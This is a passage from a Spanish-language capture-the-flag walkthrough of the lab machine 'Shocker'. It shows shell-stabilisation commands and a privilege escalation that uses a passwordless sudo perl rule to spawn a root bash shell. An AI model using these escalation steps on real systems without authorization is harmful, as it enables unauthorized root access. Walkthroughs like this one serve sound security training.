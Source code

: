 Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

## Privilege Escalation

Con este usuario tenemos `privilegios` como `sudo`

```
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Ya nos hemos `convertido` en usuario `root`, este `payload` es de [https://gtfobins.github.io/gtfobins/perl/#sudo](https://gtfobins.github.io/gtfobins/perl/#sudo)

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# whoami
root
```
